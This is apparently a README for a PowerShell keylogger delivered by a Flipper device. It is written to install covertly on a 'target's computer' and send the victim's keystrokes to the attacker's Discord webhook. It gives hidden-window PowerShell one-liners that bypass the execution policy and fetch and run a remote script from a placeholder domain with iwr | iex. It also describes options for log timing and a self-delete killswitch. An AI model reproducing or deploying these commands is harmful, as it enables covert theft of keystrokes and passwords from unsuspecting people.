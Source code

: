 ##

<!-- TABLE OF CONTENTS -->
<!--TABLE 0F C0NTENTS-->

# Keylogger 

This is a Powershell based keylogger that exfiltrates the logs to discord

## Description

Quickly with just ONE line of code you can deploy a keylogger on your targets computer 

Complete with custom logging times, and self destruct feature

Just move the `keylogger.txt` file over to your flipper and you are good to go

## Getting Started

### Dependencies

* Windows 10,11

##

### Executing program

* Plug in your device
* 15 seconds later you have their keystrokes being sent to you

This is the basic command to install the keylogger and provide the webhook for the keystrokes to be sent back to you

* `$dc=''` is the variable where you plug in your discord webhook 

```
powershell -w h -NoP -Ep Bypass $dc='';iwr "https://MYDOMAIN.HERE/m2m" | iex
```
### ADDITIONAL PARAMETERS

The payload is set to send the logs collected every hour on the hour

* You maybe use the `$log` variable to specify a certain time instead (Use this for testing)
* ex: `$log="09:00 pm"`  <-- This will send the log every night at 9pm

You also have the option of setting up a killswitch to have the keylogger self delete at a certain time and date 

`$ks="12/25/2022 10:00:00 PM"`  <-- This will make the keylogger self delete at 10pm on December 25th

Calling the script with both a `log` time and `killswitch` will look something like this: 
 
```
powershell -w h -NoP -Ep Bypass -command "$dc='';$log='09:00 pm';$ks='12/25/2022 10:00:00 PM';iwr 'https://MYDOMAIN.HERE/m2m' | iex"
```
### DELETING THE KEYLOGGER

Just hold `Left Control` + `Right Control` for 5 seconds untill the notification box pops up

#

##
